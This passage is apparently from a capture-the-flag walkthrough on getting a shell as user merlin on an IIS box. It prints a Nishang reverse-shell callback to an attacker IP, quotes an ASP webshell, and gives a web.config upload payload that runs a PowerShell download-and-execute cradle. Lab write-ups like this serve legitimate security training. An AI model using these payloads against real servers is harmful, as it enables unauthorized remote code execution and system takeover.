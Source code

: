![1540549579070](https://0xdfimages.gitlab.io/img/1540549579070.png)

## Shell as merlin

### Prep

It’s certainly possible to get a webshell, but I’ll notice that the
`UploadedFiles` path is being cleared out every few minutes. So I’ll opt to go
directly to reverse shell. First, grab a copy of [Nishang’s Invoke-
PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-
PowerShellTcp.ps1). Then add a line at the end to invoke a callback to me:

    
    
    Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.5 -Port 443
    

Now, since my asp skills are quite low, I started with the asp webshell that
comes on kali (`/usr/share/webshells/asp/cmdasp.asp`), and started reading it
to determine how code is actually executed. This part seemed most interesting:

    
    
      ' -- create the COM objects that we will be using -- '
      Set oScript = Server.CreateObject("WSCRIPT.SHELL")
      Set oScriptNet = Server.CreateObject("WSCRIPT.NETWORK")
      Set oFileSys = Server.CreateObject("Scripting.FileSystemObject")
    
      ' -- check for a command that we have posted -- '
      szCMD = Request.Form(".CMD")
      If (szCMD <> "") Then
    
        ' -- Use a poor man's pipe ... a temp file -- '
        szTempFile = "C:\" & oFileSys.GetTempName( )
        Call oScript.Run ("cmd.exe /c " & szCMD & " > " & szTempFile, 0, True)
        Set oFile = oFileSys.OpenTextFile (szTempFile, 1, False, 0)
    
      End If
    

So basically I need a `WSCRIPT.SHELL` COM object, and use it’s Run function to
run a command. Ok, so because I only want to run one specific line to download
and execute my Nishang shell, this should be simple. Here’s a `web.config`
file that will start that process:

    
    
    <?xml version="1.0" encoding="UTF-8"?>
    <configuration>
        <system.webServer>
          <handlers accessPolicy="Read, Script, Write">
             <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
          </handlers>
          <security>
             <requestFiltering>
                <fileExtensions>
                   <remove fileExtension=".config" />
                </fileExtensions>
                <hiddenSegments>
                   <remove segment="web.config" />
                </hiddenSegments>
             </requestFiltering>
          </security>
       </system.webServer>
    </configuration>
    <%@ Language=VBScript %>
    <%
      call Server.CreateObject("WSCRIPT.SHELL").Run("cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.5/Invoke-PowerShellTcp.ps1')")